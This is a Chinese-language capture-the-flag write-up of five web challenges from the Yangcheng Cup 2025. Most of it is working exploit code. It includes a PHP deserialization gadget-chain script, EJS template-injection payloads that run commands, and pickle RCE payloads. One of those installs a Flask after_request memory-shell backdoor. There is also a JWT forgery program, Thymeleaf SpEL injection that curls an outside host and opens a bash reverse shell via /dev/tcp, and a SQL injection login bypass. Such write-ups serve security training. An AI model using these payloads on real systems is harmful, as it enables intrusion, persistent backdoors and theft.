# 羊城杯 2025 Web Writeup


定榜第二
  

# ez_unserialize
```
<?php

error_reporting(0);
highlight_file(__FILE__);

class A {
    public $first;
    public $step;
    public $next;

    public function __construct() {
        $this->first = "继续加油！";
    }

    public function start() {
        echo $this->next;
    }
}

class E {
    private $you;
    public $found;
    private $secret = "admin123";

    public function __get($name){
        if($name === "secret") {
            echo "<br>".$name." maybe is here!</br>";
            $this->found->check();
        }
    }
}

class F {
    public $fifth;
    public $step;
    public $finalstep;

    public function check() {
        if(preg_match("/U/",$this->finalstep)) {
            echo "仔细想想！";
        }
        else {
            $this->step = new $this->finalstep();
            ($this->step)();
        }
    }
}

class H {
    public $who;
    public $are;
    public $you;

    public function __construct() {
        $this->you = "nobody";
    }

    public function __destruct() {
        $this->who->start();
    }
}

class N {
    public $congratulation;
    public $yougotit;

    public function __call(string $func_name, array $args) {
        return call_user_func($func_name,$args[0]);
    }
}

class U {
    public $almost;
    public $there;
    public $cmd;

    public function __construct() {
        $this->there = new N();
        $this->cmd = $_POST['cmd'];
    }

    public function __invoke() {
        return $this->there->system($this->cmd);
    }
}

class V {
    public $good;
    public $keep;
    public $dowhat;
    public $go;

    public function __toString() {
        $abc = $this->dowhat;
        $this->go->$abc;
        return "<br>Win!!!</br>";
    }
}

unserialize($_POST['payload']);

?>
```
签到 PHP 反序列化不解释，exp
```
<?php
$target = $argv[1];
$cmd = $argv[2];

class A { public $first; public $step; public $next; }
class E { public $found; }
class F { public $fifth; public $step; public $finalstep; }
class H { public $who; public $are; public $you; }
class V { public $good; public $keep; public $dowhat; public $go; }

$f = new F(); $f->finalstep = 'u';
$e = new E(); $e->found = $f;
$v = new V(); $v->dowhat = 'secret';
$v -> go = $e;
$a = new A(); $a->next = $v;
$h = new H(); $h->who = $a;

$payload = urlencode(serialize($h));
echo $payload;
```


# staticNodeService
任意 PUT 写文件，文件内容 base64 解密
```
app.put('/*', (req, res) => {
    const filePath = path.join(STATIC_DIR, req.path);

    if (fs.existsSync(filePath)) {
        return res.status(500).send('File already exists');
    }

    fs.writeFile(filePath, Buffer.from(req.body.content, 'base64'), (err) => {
        if (err) {
            return res.status(500).send('Error writing file');
        }
        res.status(201).send('File created/updated');
    });
});
```
templ 模板名可控，没有任何校验
```
function serveIndex(req, res) {
    var templ = req.query.templ || 'index';
    var lsPath = path.join(__dirname, req.path);
    try {
        res.render(templ, {
            filenames: fs.readdirSync(lsPath),
            path: req.path
        });
    } catch (e) {
        console.log(e);
        res.status(500).send('Error rendering page');
    }
}
```
过滤器对任何以 js 结尾或包含 `..` 都会被拦截
```
app.use((req, res, next) => {
    if (typeof req.path !== 'string' ||
            (typeof req.query.templ !== 'string' && typeof req.query.templ !== 'undefined')
        ) res.status(500).send('Error parsing path');
    else if (/js$|\.\./i.test(req.path)) res.status(403).send('Denied filename');
    else next();
})
```
利用路径末尾添加 /. 的方式绕过过滤，/. 表示当前路径自动被消去
```
PUT /l1.ejs/. HTTP/1.1

{"content":"base64-payload"}
```
EJS 会执行 `<% %>` 中的 JS，`<%- %>` 为不转义输出
```
<%- global.process.mainModule.require('child_process').execSync('ls / -liah') %>
```

```
total 84K
  4457839 drwxr-xr-x   1 root root 4.0K Oct 11 16:17 .
  4457839 drwxr-xr-x   1 root root 4.0K Oct 11 16:17 ..
  4457828 -rwxr-xr-x   1 root root    0 Oct 11 16:17 .dockerenv
  2099511 drwxr-xr-x   1 node node 4.0K Oct 11 16:38 App
  1183943 lrwxrwxrwx   1 root root    7 Dec  2  2024 bin -> usr/bin
  1310979 drwxr-xr-x   2 root root 4.0K Oct 31  2024 boot
667047127 drwxr-xr-x   5 root root  360 Oct 11 16:17 dev
  4457829 drwxr-xr-x   1 root root 4.0K Oct 11 16:17 etc
  2099441 -r--------   1 root root   41 Oct 11 16:17 flag
  1839683 drwxr-xr-x   1 root root 4.0K Dec  3  2024 home
  1183944 lrwxrwxrwx   1 root root    7 Dec  2  2024 lib -> usr/lib
  1183945 lrwxrwxrwx   1 root root    9 Dec  2  2024 lib64 -> usr/lib64
  1183946 drwxr-xr-x   2 root root 4.0K Dec  2  2024 media
  1311248 drwxr-xr-x   2 root root 4.0K Dec  2  2024 mnt
  1840448 drwxr-xr-x   1 root root 4.0K Dec  3  2024 opt
        1 dr-xr-xr-x 963 root root    0 Oct 11 16:17 proc
  2099498 -rwsr-xr-x   1 root root  16K Dec  9  2024 readflag
  2098857 drwx------   1 root root 4.0K Dec  9  2024 root
  1574207 drwxr-xr-x   1 root root 4.0K Dec  3  2024 run
  1183947 lrwxrwxrwx   1 root root    8 Dec  2  2024 sbin -> usr/sbin
  1311258 drwxr-xr-x   2 root root 4.0K Dec  2  2024 srv
  2099470 -rwxr-xr-x   1 root root  148 Dec  9  2024 start.sh
        1 dr-xr-xr-x  13 root root    0 Oct 11 06:26 sys
  2099456 drwxrwxrwt   1 root root 4.0K Dec  9  2024 tmp
  2097846 drwxr-xr-x   1 root root 4.0K Dec  2  2024 usr
  1713954 drwxr-xr-x   1 root root 4.0K Dec  2  2024 var
```
执行 /readflag
```
<%- global.process.mainModule.require('child_process').execSync('/readflag') %>
```



# ez_blog
提示访客只能用管理账号登录，添加文章必须要管理员账户

但题目没有路由注册，顺着思路测几个账户，发现默认访客账号 guest/guset

看到熟悉的 session，先顺手解密一下，但程序并不是从这里做鉴权

视野回到 Token，十六进制解密得到 0x800x040x95 ...，典型的 pickle 流标志
```
b'\x80\x04\x95K\x00\x00\x00\x00\x00\x00\x00\x8c\x03app\x94\x8c\x04User\x94\x93\x94)\x81\x94}\x94(\x8c\x02id\x94K\x02\x8c\x08username\x94\x8c\x05guest\x94\x8c\x08is_admin\x94\x89\x8c\tlogged_in\x94\x88ub.'
```
字段大致意思为以下。
```
app.User(
  id=2,
  username='guest',
  is_admin=False,
  logged_in=True
)
```
pickle opcode 用 0x89 表达 False，将其改为 0x88 绕过鉴权
```
import binascii

data = b'\x80\x04\x95K\x00\x00\x00\x00\x00\x00\x00\x8c\x03app\x94\x8c\x04User\x94\x93\x94)\x81\x94}\x94(\x8c\x02id\x94K\x02\x8c\x08username\x94\x8c\x05guest\x94\x8c\x08is_admin\x94\x88\x8c\tlogged_in\x94\x88ub.'
print(binascii.hexlify(bytes(data)).decode())
```
添加文章尝试 SSTI，但其不解析直接当纯文本输出了

Token 是 pickle 十六进制数据，拿到本地需要进行反序列化，猜测存在 pickle.loads，打一下延迟验证
```
import pickle, binascii

class RCE:
    def __reduce__(self):
        return (eval, (f"__import__('time').sleep(10)",))

print(binascii.hexlify(pickle.dumps(RCE())).decode())
```

能 RCE，测试发现反弹shell、DNS等应该都不行，不出网，最终打 after_request 内存马拿下FLAG
```
import pickle, binascii

payload = r"""
from flask import current_app, request, make_response
import os
def _h(resp):
    c = request.args.get('cmd')
    return make_response(os.popen(c).read()) if c else resp
current_app.after_request_funcs.setdefault(None, []).append(_h)
"""

class RCE:
    def __reduce__(self): return (exec, (payload,))
print(binascii.hexlify(pickle.dumps(RCE())).decode())
```



# authweb
Spring Security + Thymeleaf + JJWT
项目结构如下
```
com/example/demo
├── AuthApplication.java   #Spring Boot 启动类
├── SecurityConfig.java   # Security 规则存储
├── InMemoryUserDetailsService.java 
├── JwtTokenProvider.java   # JJWT 校验
├── JwtAuthenticationFilter.java
├── Login.java
└── MainC.java
```
InMemoryUserDetailsService.java，两个预定义用户 user、admin，使用静态 HashMap 存储
```
@Service
public class InMemoryUserDetailsService
implements UserDetailsService {
    private static final Map<String, User> USERS = new HashMap();

    public UserDetails loadUserByUsername(String username) throws UsernameNotFoundException {
        User user = (User)USERS.get(username);
        if (user == null) {
            throw new UsernameNotFoundException("User not found with username: " + username);
        }
        return user;
    }

    static {
        USERS.put("user1", new User("user1", "{noop}password1", true, true, true, true, Arrays.asList(new SimpleGrantedAuthority("ROLE_USER"))));
        USERS.put("admin", new User("admin", "{noop}adminpass", true, true, true, true, Arrays.asList(new SimpleGrantedAuthority("ROLE_ADMIN"))));
    }
}
```
requestMatchers 定义访问需要通过 hasRole("USER")，Spring Security会自动添加"ROLE_"前缀，所以检查的是 ROLE_USER。前面预定义用户代码中 admin 只拥有 ROLE_ADMIN 角色，并没有 ROLE_USER。这里鉴权校验逻辑上也有问题，有且仅有 user 能访问关键路由
```
@Configuration
public class SecurityConfig {
    private final JwtTokenProvider jwtTokenProvider;

    @Bean
    public SecurityFilterChain securityFilterChain(HttpSecurity http) throws Exception {
        http.csrf().disable()
            .authorizeHttpRequests(authz -> authz
                .requestMatchers("/upload").hasRole("USER")
                .requestMatchers("/").hasRole("USER")
                .anyRequest().permitAll()
            )
            .addFilterBefore(
                new JwtAuthenticationFilter(this.jwtTokenProvider, this.userDetailsService()),
                UsernamePasswordAuthenticationFilter.class
            )
            .formLogin(form -> form
                .loginPage("/login/dynamic-template?value=login")
                .permitAll()
            );
        return (SecurityFilterChain)http.build();
    }
}
```
再看文件上传路由，imgFile 字段接收 MultipartFile 对象，包含上传内容；imgName 字段接收上传非拓展名文件名，随后创建目录并将文件写入。文件路径大致为 `<工作目录>/uploadFile/<name>.html`，很明显存在路径穿越，`../filename` 可以控制上传路径，最后会 return success 即渲染 success.html 返回，即使不懂其模板机制也可以从模糊测试中得出结论
```
@Controller
public class MainC {
    @PostMapping(value={"/upload"})
    public String upload(@RequestParam(value="imgFile") MultipartFile file, @RequestParam(value="imgName") String name) throws Exception {
        File dir = new File("uploadFile");
        if (!dir.exists()) {
            dir.mkdirs();
        }
        file.transferTo(new File(dir.getAbsolutePath() + File.separator + name + ".html"));
        return "success";
    }
}
```
假登录路由没写登录逻辑，也没对应的后台程序，但其具备动态模板渲染的功能，且 value 可控，文件上传与解析路径不在同一个目录，利用还需要猜测其解析路径
```
@Controller
@RequestMapping(value={"/login"})
public class Login {
    @GetMapping(value={"/dynamic-template"})
    public String getDynamicTemplate(@RequestParam(value="value", required=false) String value) {
        if (value.equals("")) {
            value = "login";
        }
        return value + ".html";
    }
}
```
Spring Security 还有注册一个 JWT 校验，每次请求都会先走 JwtAuthenticationFilter
```
.addFilterBefore(
	(Filter)new JwtAuthenticationFilter(this.jwtTokenProvider,
	this.userDetailsService()), UsernamePasswordAuthenticationFilter.class
)
```
JwtAuthenticationFilter 类，先取 HTTP 头 Authorization 并取其中 Bearer 字段交给 jwtTokenProvider#validateToken 校验
```
public class JwtAuthenticationFilter
extends OncePerRequestFilter {
    private final JwtTokenProvider jwtTokenProvider;
    private final UserDetailsService userDetailsService;

    public JwtAuthenticationFilter(JwtTokenProvider jwtTokenProvider, UserDetailsService userDetailsService) {
        this.jwtTokenProvider = jwtTokenProvider;
        this.userDetailsService = userDetailsService;
    }

    protected void doFilterInternal(HttpServletRequest request, HttpServletResponse response, FilterChain filterChain) throws ServletException, IOException {
        String token;
        String tokenHeader = request.getHeader("Authorization");
        if (tokenHeader != null && tokenHeader.startsWith("Bearer ") && this.jwtTokenProvider.validateToken(token = tokenHeader.substring(7))) {
            String username = this.jwtTokenProvider.getUsernameFromToken(token);
            System.out.println(username);
            UserDetails userDetails = this.userDetailsService.loadUserByUsername(username);
            UsernamePasswordAuthenticationToken authentication = new UsernamePasswordAuthenticationToken((Object)username, null, userDetails.getAuthorities());
            SecurityContextHolder.getContext().setAuthentication((Authentication)authentication);
        }
        filterChain.doFilter((ServletRequest)request, (ServletResponse)response);
    }
}
```
跟进 JwtTokenProvider，硬编码密钥 secret 写死在代码中
```
public class JwtTokenProvider {
    private String secret = "25d55ad283aa400af464c76d713c07add57f21e6a273781dbf8b7657940f3b03";

    public boolean validateToken(String token) {
        try {
            Jwts.parserBuilder().setSigningKey(this.secret.getBytes()).build().parseClaimsJws(token);
            return true;
        }
        catch (Exception e) {
            return false;
        }
    }

    public String getUsernameFromToken(String token) {
        Claims claims = (Claims)Jwts.parserBuilder().setSigningKey(this.secret.getBytes()).build().parseClaimsJws(token).getBody();
        return claims.getSubject();
    }
}
```
直接用硬编码 JWT 伪造绕过鉴权
```
package org.example;  
import io.jsonwebtoken.Jwts;  
import io.jsonwebtoken.SignatureAlgorithm;  
import javax.crypto.spec.SecretKeySpec;  
import java.nio.charset.StandardCharsets;  
import java.security.Key;  
import java.util.Date;  
  
public class Main {  
    public static void main(String[] args) {  
        String secret = "25d55ad283aa400af464c76d713c07add57f21e6a273781dbf8b7657940f3b03";  
  
        Key key = new SecretKeySpec(secret.getBytes(StandardCharsets.UTF_8), SignatureAlgorithm.HS256.getJcaName());  
  
        long now = System.currentTimeMillis();  
        String token = Jwts.builder()  
                .setSubject("user1")  
                .setIssuedAt(new Date(now))  
                .setExpiration(new Date(now + 3600_000L * 24))  
                .signWith(key, SignatureAlgorithm.HS256)  
                .compact();  
  
        System.out.println(token);  
    }}
```

Spring Boot 默认使用 `SpringResourceTemplateResolver`，前缀一般是
```
spring.thymeleaf.prefix=classpath:/templates/
spring.thymeleaf.suffix=.html
```
猜测其路径也是 template，Thymeleaf SpEL 模板注入先测试一下解析
```
<pre th:text="${1+1}">x</pre>
```

解析成功

直接读环境变量

```
<pre th:text="${@environment.getSystemEnvironment()}">x</pre>
```

这样解析也可以

```
[[${1+1}]]
```

无回显出网打反弹 Shell
```
[[${T(com.fasterxml.jackson.databind.util.ClassUtil).createInstance("".getClass().forName('org.spr'+'ingframework.expression.spel.standard.SpelExpressionParser'),true).parseExpression("T(java.lang.String).forName('java.lang.Runtime').getRuntime().exec('curl http://ip:port')").getValue()}]]

[[${T(com.fasterxml.jackson.databind.util.ClassUtil).createInstance("".getClass().forName('org.spr'+'ingframework.expression.spel.standard.SpelExpressionParser'),true).parseExpression("T(java.lang.String).forName('java.lang.Runtime').getRuntime().exec('bash -c $@|bash 0 echo bash -i >& /dev/tcp/ip/7777 0>&1')").getValue()}]]
```



# ezsignin

注册后显示无权限访问

弱密码 Admin/password，或者注入万能密码

```
" OR 1=1) -- -
```
